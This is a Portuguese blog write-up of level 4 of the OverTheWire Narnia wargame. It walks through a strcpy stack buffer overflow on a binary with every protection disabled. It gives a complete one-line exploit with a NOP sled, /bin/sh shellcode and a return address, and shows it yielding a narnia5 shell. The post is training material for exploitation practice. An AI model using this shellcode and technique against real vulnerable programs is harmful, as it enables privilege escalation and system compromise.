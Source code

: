 ```yaml
---
layout: default
title: Level 4 - Outro simples stack overflow [OverTheWire CTF – Narnia] write-up
date: 2017-01-15 13:20
author: brennords
comments: true
categories: [CTFs]
---
```

<ul>
    <li><a href="https://brenn0.wordpress.com/2016/12/06/level-0-overthewire-ctf-narnia-write-up/">Level 0</a></li>
    <li><a href="https://brenn0.wordpress.com/2016/12/13/level-1-overthewire-ctf-narnia-write-up/">Level 1</a></li>
    <li><a href="https://brenn0.wordpress.com/2017/01/03/level-2-overthewire-ctf-narnia-write-up/">Level 2</a></li>
    <li><a href="https://brenn0.wordpress.com/2017/01/07/level-3-overthewire-ctf-narnia-write-up/">Level 3</a></li>
</ul>

Esse level 4 foi rápido de se resolver e, se você leu o <a href="https://brenn0.wordpress.com/2017/01/03/level-2-overthewire-ctf-narnia-write-up/">write-up do level 2</a>, também resolve fácil.

De qualquer forma, farei um write up simples indicando a pequena diferença entre os challs.

```
narnia4@melinda:/narnia$ ./narnia4
narnia4@melinda:/narnia$ ./narnia4 asdfa
narnia4@melinda:/narnia$
```

Executa-lo não ajudou muito. Hora de <em>cat narnia4.c.</em>

<script src="https://gist.github.com/anonymous/d5c986fb7d5333a2a544660a0ac649f9.js"></script>

Praticamente a única diferenca entre o <a href="https://brenn0.wordpress.com/2017/01/03/level-2-overthewire-ctf-narnia-write-up/">level 2</a> e este é que ele enche de 0's as variáveis de ambiente. Mas com qual objetivo? Você pode perguntar. Com o objetivo de impossibilitar que guardemos um shellcode em alguma variável de ambiente e faça o programa executa-lo assim que estourarmos o buffer de chars e sobreescrevermos o endereço de retorno.

Se você não entendeu bem como o programa faz isso, deixo esta página com o manual sobre a <strong><a href="http://man7.org/linux/man-pages/man7/environ.7.html">environ</a></strong>.

Nesta altura do campeonado todos já devem saber o que acontece quando se usa <a href="http://www.cplusplus.com/reference/cstring/strcpy/"><strong>strcpy</strong></a> (linha 17 do código acima) para se copiar um conjunto de dados de tamanho desconhecido para uma variável de tamanho fixo (não sabe? <a href="https://brenn0.wordpress.com/category/ctfs/over-the-wire/narnia/">Leia os write-ups desde o level 0</a>).

Diferente do <a href="https://brenn0.wordpress.com/2017/01/07/level-3-overthewire-ctf-narnia-write-up/">level 3</a>, desta vez não haverá problema algum em usar a stack para guardar um shellcode e executa-lo. Pude confirmar isso usando comando checksec no gdb+peda.

```
narnia4@melinda:/narnia$ gdb -q narnia4
Reading symbols from narnia4...(no debugging symbols found)...done.
(gdb) source /usr/local/peda/peda.py
gdb-peda$ checksec
CANARY : disabled
FORTIFY : disabled
NX : disabled
PIE : disabled
RELRO : disabled
```

A partir desse momento segui os mesmos passos do <a href="https://brenn0.wordpress.com/2017/01/03/level-2-overthewire-ctf-narnia-write-up/">level 2</a>: descobri o tamanho do buffer que era preciso para sobreescrever exatamente o endereço de retorno e também o endereço que o shellcode estaria. Então enchi o buffer de nops + shellcode + endereço do shellcode.

Acabei ficando com o exploit assim:

```
python -c 'print \x90*224 + \x31\xc0\xb0\x46\x31\xc9\x31\xdb\xcd\x80\xeb\x18\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\x31\xc0\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68 + \xad\xd7\xff\xff'
```

Que quando executado:

```
narnia4@melinda:/narnia$ ./narnia4 `python -c 'print \x90*224 + \x31\xc0\xb0\x46\x31\xc9\x31\xdb\xcd\x80\xeb\x18\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\x31\xc0\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68 + \xad\xd7\xff\xff'`
$ whoami
narnia5
```

Mas antes de finalizar, queria salientar que uma coisa nova que aprendi resolvendo esse desafio foi de que algumas vezes o exploit pode rodar dentro do gdb e resultar em um erro fora dele (illegal instruction ou coisa assim). Isso acontece porque o gdb joga umas variaveis de ambiente extras no stack, o que pode bagunçar com os endereços. Ou seja, no gdb vai ser um endereço e fora dele será outro. No passado fiquei confuso quando me deparei com esse tipo de comportamento mas nunca pesquisei a fundo, mas, ao resolver esse chall e ao mesmo tempo tentar entender o máximo possível do que acontecia, encontrei esta bela postagem chamada "<a href="http://www.mathyvanhoef.com/2012/11/common-pitfalls-when-writing-exploits.html">Common Pitfalls When Writing Exploits</a>". Recomendo a leitura.
